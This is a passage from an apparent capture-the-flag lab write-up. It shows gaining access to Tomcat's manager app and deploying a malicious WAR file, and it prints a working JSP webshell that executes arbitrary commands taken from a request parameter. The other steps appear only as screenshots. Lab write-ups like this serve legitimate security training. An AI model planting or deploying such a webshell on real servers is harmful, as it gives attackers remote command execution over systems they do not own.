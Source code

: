 **Armed with above information, we can go to `/manager/html` to access the manager webapp!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212230756.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212230807.png)

**Now we can deploy our malicious WAR file!!**

- Create a directory called `webshell`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010220.png)

- Copy and paste the following JSP webshell code to a file called `index.jsp`:

```java
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"\n"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%><%=output %>
```

> Note: The above webshell is modified from [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#manual-method-web-shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#manual-method-web-shell).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010244.png)

- Create a WAR archive file:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010357.png)

- Setup a netcat listener:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231212230951.png)

- Upload and deploy the WAR file:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010520.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010528.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Pentester-Lab:Axis2-Web-service-and-Tomcat-Manager/images/Pasted%20image%2020231213010538.png)

After that, we should able to see an application on path `/webshell`.
